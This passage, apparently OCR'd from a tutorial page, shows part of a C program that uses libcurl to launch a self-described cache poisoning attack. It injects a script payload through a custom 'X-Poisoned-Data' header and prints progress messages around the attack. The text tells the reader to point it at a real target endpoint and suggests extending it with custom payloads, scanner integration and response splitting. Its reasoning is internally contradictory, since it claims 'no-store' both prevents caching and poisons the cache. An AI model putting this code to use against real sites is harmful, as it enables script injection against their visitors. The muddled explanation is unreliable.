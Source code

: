 ```c
    headers = curl_slist_append(headers, "Cache-Control: no-store");
    headers = curl_slist_append(headers, "X-Poisoned-Data: <script>alert('Cache Poisoning')</script>");
    curl_easy_setopt(curl, CURLOPT_HTTPHEADER, headers);

    // Perform the Cache Poisoning attack
    res = curl_easy_perform(curl);
    if (res != CURLE_OK) {
        fprintf(stderr, "Error performing Cache Poisoning attack: %s\n", curl_easy_strerror(res));
        curl_slist_free_all(headers);
        curl_easy_cleanup(curl);
        exit(EXIT_FAILURE);
    }

    // Cleanup libcurl
    curl_slist_free_all(headers);
    curl_easy_cleanup(curl);
}

int main() {
    printf("Starting Cache Poisoning attack...\n");

    // Perform the Cache Poisoning attack
    perform_poisoning();

    printf("Cache Poisoning attack completed.\n");

    return 0;
}
```

#### Explanation:

- The `perform_poisoning` function demonstrates a Cache Poisoning attack by using libcurl to make a request to a target endpoint with custom request headers to manipulate caching behavior.
- In this example, the target endpoint URL is hardcoded (`http://example.com/target_endpoint`). Replace this with the actual URL of the target endpoint in the target application.
- Custom request headers (`Cache-Control: no-store`, `X-Poisoned-Data: <script>alert('Cache Poisoning')</script>`) are added to prevent caching and inject poisoned data into the cache.
- This example utilizes the libcurl library for making HTTP requests. Make sure to link your program against libcurl (`-lcurl`).

#### Further Development:

To make this tool more versatile and effective, you can enhance it with the following features:

- Support for crafting custom poisoned data payloads to exploit specific vulnerabilities or caching mechanisms.
- Integration with web vulnerability scanners or automated testing frameworks to identify and exploit Cache Poisoning vulnerabilities in target web applications.
- Implementation of techniques such as HTTP response splitting or header manipulation to further exploit cache vulnerabilities and manipulate cached responses.
